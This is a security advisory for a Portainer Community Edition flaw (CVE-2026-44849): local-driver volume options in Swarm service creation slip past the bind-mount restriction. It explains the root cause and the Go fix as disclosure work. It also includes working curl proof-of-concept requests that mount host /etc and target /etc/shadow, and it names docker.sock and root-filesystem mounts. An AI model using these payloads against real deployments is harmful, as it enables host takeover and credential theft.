


# CVE-2026-44849: Bind Mount Restriction Bypass via Volume Driver Options in Swarm Service Creation

| | |
|---|---|
| **CVE ID** | CVE-2026-44849 |
| **Severity** | Critical |
| **CVSS Score** | 9.9 |
| **CVSS Vector** | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H |
| **CWE** | CWE-862: Missing Authorization |
| **Affected Product** | Portainer Community Edition |
| **Affected Versions** | >= 2.33.0, < 2.33.8; >= 2.39.0, < 2.39.2; >= 2.40.0, < 2.41.0 |
| **Patched Versions** | 2.33.8, 2.39.2, 2.41.0 |
| **Advisory** | [GHSA-5fxq-qcf3-244w](https://github.com/portainer/portainer/security/advisories/GHSA-5fxq-qcf3-244w) |

## Summary

Portainer exposes endpoint-level security settings that let administrators restrict dangerous Docker operations for non-admin users. One of those settings, `allowBindMountsForRegularUsers`, is intended to prevent standard users from binding arbitrary host paths into containers, services, or stacks.

The Swarm service creation path enforced that restriction by checking whether a requested mount had `Type: "bind"`. That check missed a bind-equivalent Docker feature: a `Type: "volume"` mount using the `local` volume driver with `type: "none"`, `device: "<host path>"`, and `o: "bind"`.

At the Portainer validation layer, the mount looked like a volume. At the Docker daemon layer, it became a real bind mount. A standard Portainer user with access to a Swarm endpoint could use this mismatch to mount arbitrary host paths such as `/etc`, `/root/.ssh`, `/var/run/docker.sock`, or `/` despite the administrator explicitly disabling bind mounts for regular users.

## Product / Feature Context

Portainer acts as a policy-enforcing proxy in front of Docker. When administrators disable bind mounts for non-admin users, Portainer is expected to reject API requests that would expose host filesystem paths to user-controlled workloads.

The vulnerable workflow was:

1. A standard user authenticated to Portainer.
2. The user had access to a Docker Swarm endpoint through Portainer RBAC.
3. The endpoint had bind mounts disabled for regular users.
4. The user created a Swarm service through Portainer's Docker proxy.
5. Portainer inspected only the top-level mount type.
6. Docker interpreted the volume driver options as a host bind mount.


This matters because the security setting is an authorization boundary. A non-admin user should not be able to choose a different Docker field shape and receive the same host filesystem access that the policy was intended to block.

## Vulnerability Overview

The bypass used Docker's local volume driver as a bind-mount primitive.

A direct bind mount was correctly rejected when `allowBindMountsForRegularUsers` was set to `false`:

```json
{
  "Type": "bind",
  "Source": "/etc",
  "Target": "/hostetc",
  "ReadOnly": true
}
```

However, the following mount was accepted because its top-level type was `volume`:

```json
{
  "Type": "volume",
  "Target": "/hostetc",
  "VolumeOptions": {
    "DriverConfig": {
      "Name": "local",
      "Options": {
        "type": "none",
        "device": "/etc",
        "o": "bind"
      }
    }
  }
}
```

Those options instruct Docker's local volume driver to bind the host's `/etc` directory into the service task container. Portainer's check did not parse or validate `VolumeOptions.DriverConfig.Options`, so the bind-equivalent operation passed through unchanged.

## Root Cause Analysis

The issue was caused by incomplete request-body parsing in the Swarm service creation decorator.

The vulnerable code parsed the request body into a reduced `PartialService` structure:

```go
type PartialService struct {
    TaskTemplate struct {
        ContainerSpec struct {
            Mounts []struct {
                Type string
            }
        }
    }
}
```

The enforcement logic only checked whether the top-level mount type was `bind`:

```go
if !securitySettings.AllowBindMountsForRegularUsers &&
    (len(partialService.TaskTemplate.ContainerSpec.Mounts) > 0) {
    for _, mount := range partialService.TaskTemplate.ContainerSpec.Mounts {
        if mount.Type == "bind" {
            return forbiddenResponse, errors.New("forbidden to use bind mounts")
        }
    }
}
```

That is the trust-boundary failure. Docker supports multiple request shapes that produce host path mounts, but Portainer validated only one of them.



The request was not unsafe because it was malformed. It was unsafe because it used a valid Docker API feature that Portainer's authorization logic did not model.

## Attack Path / Exploitation Walkthrough

A practical exploit path required only a standard user account with access to a Swarm endpoint.

1. An administrator disabled bind mounts for regular users on the endpoint.
2. The attacker authenticated as a standard user.
3. The attacker verified that direct bind mounts were blocked.
4. The attacker created a Swarm service using a `volume` mount with local-driver bind options.
5. Docker mounted the selected host path into the service container.
6. The attacker executed commands in the task container and read or modified host files.



### Baseline: Direct Bind Mount Blocked

With `allowBindMountsForRegularUsers` disabled, this request should return `403 Forbidden`:

```bash
curl -sk -X POST "$PORTAINER/api/endpoints/$ENDPOINT_ID/docker/services/create" \
  -H "Authorization: Bearer $STD_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "Name": "test-blocked",
    "TaskTemplate": {
      "ContainerSpec": {
        "Image": "alpine:latest",
        "Command": ["cat", "/hostetc/shadow"],
        "Mounts": [{
          "Type": "bind",
          "Source": "/etc",
          "Target": "/hostetc",
          "ReadOnly": true
        }]
      }
    }
  }'
```

Expected response:

```json
{"message":"","details":"Forbidden to use bind mounts"}
```

### Bypass: Volume Mount With Local Driver Bind Options

The bypass used a `volume` mount that the local driver materialized as a bind mount:

```bash
curl -sk -X POST "$PORTAINER/api/endpoints/$ENDPOINT_ID/docker/services/create" \
  -H "Authorization: Bearer $STD_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "Name": "volume-escape",
    "TaskTemplate": {
      "ContainerSpec": {
        "Image": "alpine:latest",
        "Command": ["/bin/sh", "-c"],
        "Args": ["sleep infinity"],
        "Mounts": [{
          "Type": "volume",
          "Target": "/hostetc",
          "VolumeOptions": {
            "DriverConfig": {
              "Name": "local",
              "Options": {
                "type": "none",
                "device": "/etc",
                "o": "bind"
              }
            }
          }
        }]
      }
    }
  }'
```

On vulnerable versions, this returned `201 Created`. The attacker could then exec into the service task container and access host files through `/hostetc`.

## Impact Analysis

The direct impact was arbitrary host filesystem access from a restricted Portainer account.

An attacker could use the bypass to:

- read sensitive host files, including `/etc/shadow`, SSH private keys, application secrets, database files, and Portainer's own data
- write to host files when the mount was not marked read-only
- mount `/var/run/docker.sock` and gain direct Docker API access from inside the service container
- mount `/` and interact with the host filesystem as a containerized root user
- schedule workloads across Swarm nodes and target filesystem paths on multiple nodes in the cluster

This undermined the administrator's configured endpoint security policy. The attack did not require privileged container mode or custom Linux capabilities because Docker's volume driver performed the host mount on behalf of the user-controlled service spec.

## Remediation Discussion

The fix needs to validate Docker semantics, not only field names.

For Swarm service creation and update, Portainer should parse enough of the service spec to detect every mount representation that can expose a host path. For the volume-driver bypass specifically, the partial service structure needs to include `VolumeOptions.DriverConfig.Options`:

```go
type PartialService struct {
    TaskTemplate struct {
        ContainerSpec struct {
            Mounts []struct {
                Type string
                VolumeOptions struct {
                    DriverConfig struct {
                        Name    string
                        Options map[string]string
                    }
                }
            }
        }
    }
}
```

The bind-mount restriction should reject both direct bind mounts and bind-equivalent local volume driver options:

```go
for _, mount := range partialService.TaskTemplate.ContainerSpec.Mounts {
    if mount.Type == "bind" {
        return forbiddenResponse, errors.New("forbidden to use bind mounts")
    }

    if mount.Type == "volume" {
        opts := mount.VolumeOptions.DriverConfig.Options
        if opts["o"] == "bind" || opts["type"] == "none" {
            return forbiddenResponse, errors.New("forbidden to use bind mounts via volume driver options")
        }
    }
}
```

Administrators who could not immediately upgrade could reduce exposure by temporarily revoking Swarm endpoint access for non-admin users and restricting local-driver volumes with bind-style options at the Docker daemon or policy layer. These mitigations reduce attack surface, but they do not replace patching.

## Key Takeaways

This vulnerability is a good example of why proxy-layer authorization has to model downstream semantics.

The relevant question was not "does this JSON field say bind?" The relevant question was "will Docker mount a host path if this request is forwarded?"

Security controls that sit in front of rich APIs need to validate all equivalent representations of a dangerous operation. Otherwise, a policy can be bypassed by moving the same operation into a different, valid part of the request body.

## Disclosure Timeline

| Date | Event |
|---|---|
| 2026-02-19 | Initial Report via Email to security@portainer.io |
| 2026-03-11 | Maintainer Acknowledges Receipt |
| 2026-04-19 | Maintainer Confirms Vulnerability |
| 2026-04-29 | Patch Released ([2.41.0](https://github.com/portainer/portainer/releases/tag/2.41.0)) |
| 2026-05-10 | GHSA Published ([GHSA-5fxq-qcf3-244w](https://github.com/portainer/portainer/security/advisories/GHSA-5fxq-qcf3-244w)) |
| 2026-05-14 | Published to [GitHub Advisory Database](https://github.com/advisories/GHSA-5fxq-qcf3-244w) |
| 2026-05-28 | Published to [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2026-44849) |

